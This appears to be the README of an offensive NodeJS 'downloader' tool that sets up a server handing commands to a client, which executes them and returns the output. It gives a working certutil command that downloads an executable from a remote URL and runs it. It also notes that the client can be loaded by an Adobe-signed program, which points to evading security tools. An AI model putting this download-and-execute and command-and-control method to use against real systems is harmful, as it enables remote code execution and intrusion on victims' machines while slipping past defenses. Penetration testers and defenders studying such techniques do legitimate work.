 # Nodejs-Downloader
An example of a downloader written in NodeJS.

Usage:

1. Download the NodeJS:

https://nodejs.org/en/download/

You just need node.exe in the file.

2. Set the command sent to the client:

Edit the Server.js

eg.

var command = 'certutil -urlcache -split -f https://github.com/3gstudent/test/raw/master/putty.exe c:\\a.exe&&c:\\a.exe';

3. Start the server

node.exe Server.js

When you use a browser to access it, you will return 404.

4. Start the client

node.exe Client.js

It will connect to the server and get the command, then execute the command and send the result again.

Client.js can be loaded by a program with a digital signature of Adobe Systems Incorporated.

![Alt text](https://raw.githubusercontent.com/3gstudent/NodeJS-Downloader/blob/master/1.png)

Reference:

https://bbs.pediy.com/thread-249573.htm


More details:

《渗透测试中的Node.js》[Coming soon]
